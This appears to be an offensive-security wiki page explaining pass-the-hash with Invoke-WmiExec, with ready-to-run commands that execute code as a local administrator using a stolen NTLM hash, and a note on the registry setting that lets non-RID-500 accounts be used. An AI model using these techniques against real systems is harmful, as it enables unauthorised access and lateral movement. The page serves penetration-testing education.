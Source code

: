 # Pass The Hash: Privilege Escalation with Invoke-WMIExec

## Execution

If you have an NTLMv2 hash of a local administrator on a box ws01, it's possible to pass that hash and execute code with privileges of that local administrator account:

```csharp
Invoke-WmiExec -target ws01 -hash 32ed87bd5fdc5e9cba88547376818d4 -username administrator -command hostname
```

Below shows how the user `low` is not a local admin, passes the hash of the local `administrator` account on ws01 and executes a command successfully:

![](../../.gitbook/assets/image%20%28224%29.png)

## RID != 500 - No Pass The Hash for You

Say you have a hash of the user spotless who you know is a local admin on ws01:

![](../../.gitbook/assets/image%20%2811%29.png)

...but when you attempt passing the hash, you get access denied - why is that?

![](../../.gitbook/assets/image%20%28186%29.png)

It may be because hashes for accounts that are not RID=500 \(not default administrator accounts\) are stripped of some privileges during the token creation.

![](../../.gitbook/assets/image%20%28245%29.png)

![](../../.gitbook/assets/image%20%2887%29.png)

If the target system you are passing the hash to, has the following registry key/value/data set to 0x1, pass the hash will work even for accounts that are not RID 500:

```text
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy
```

![](../../.gitbook/assets/image%20%2848%29.png)

```csharp
Invoke-WmiExec -target ws01 -hash 32ed87bd5fdc5e9cba88547376818d4 -username spotless -command hostname
```

![](../../.gitbook/assets/image%20%2843%29.png)

## References

{% embed url="https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/" %}

